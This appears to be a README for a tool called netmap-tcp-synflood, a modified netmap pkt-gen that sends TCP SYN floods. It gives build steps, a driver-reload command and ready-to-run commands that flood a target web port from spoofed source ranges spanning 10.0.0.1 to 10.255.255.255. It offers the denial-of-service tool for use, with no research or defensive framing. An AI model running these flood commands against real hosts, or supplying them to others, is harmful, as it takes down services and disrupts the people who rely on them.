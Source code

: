 # netmap-tcp-synflood

Its a code from netmap pkt-gen example that can be able to send tcp syn pkts

First, compile netmap (linux): https://github.com/luigirizzo/netmap/tree/master/LINUX

After, reload nic driver (in this case is ixgbe)

	rmmod ixgbe ; modprobe mdio ; modprobe ptp ; modprobe dca ; insmod /root/netmap/LINUX/netmap.ko ; insmod /root/netmap/LINUX/ixgbe/ixgbe.ko

To compile:
	cd netmap-tcp-synflood
	make

After compiled, just run: 

	/examples/pkt-gen -i eth2 -f tx -D <gateway_mac_address> -s <src_ip>:<src_port_range>-<dst_ip>:dst_port_range -d <target>:<target_port>
  
Real example :-)

	/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1:1024-10.255.255.255:5000 -d 192.168.10.80:80
	
OR

		/examples/pkt-gen -i eth2 -f tx -D 00:1B:21:A7:9B:D8 -s 10.0.0.1-10.255.255.255 -d 192.168.10.80:80

